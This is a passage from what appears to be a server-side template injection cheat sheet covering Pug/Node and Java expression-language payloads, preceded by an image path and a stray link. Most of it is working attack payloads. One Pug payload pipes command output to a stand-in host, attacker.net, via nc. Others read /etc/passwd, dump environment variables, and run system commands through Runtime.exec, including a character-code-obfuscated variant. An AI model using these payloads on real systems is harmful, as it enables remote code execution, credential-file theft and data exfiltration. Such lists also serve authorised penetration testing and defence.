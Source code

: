 [Official website](https://codepen.io/)
> 

```python
- var x = root.process
- x = x.mainModule.require
- x = x('child_process')
= x.exec('id | nc attacker.net 80')
```

```javascript
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```

---

## Java

### Java - Basic injection
> Multiple variable expressions can be used, if `${...}` doesn't work try `#{...}`, `*{...}`, `@{...}` or `~{...}`.

```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
```

### Java - Retrieve the system’s environment variables

```java
${T(java.lang.System).getenv()}
```

### Java - Retrieve /etc/passwd

```java
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

---

## Django Templates
